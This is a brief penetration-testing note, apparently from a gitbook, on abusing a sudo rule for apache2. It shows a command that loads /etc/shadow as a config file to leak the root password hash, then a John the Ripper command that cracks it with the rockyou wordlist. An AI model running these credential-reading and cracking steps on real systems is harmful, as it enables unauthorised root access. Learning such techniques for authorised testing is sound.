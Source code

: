 # Abusing attended functionality

This allows running `apache2` as root without password. Apache config files can `Include` arbitrary files, so we can read root-only files through error output.

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```bash
sudo /usr/sbin/apache2 -f /etc/shadow
```

which case error but hashed of root is leaked

then unshadow and crack hash

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
john shadow1 --wordlist=~/wordlist/rockyou.txt --pot=deleteme.pot
```

we use this option `--pot=deleteme.pot` to force john start crack again
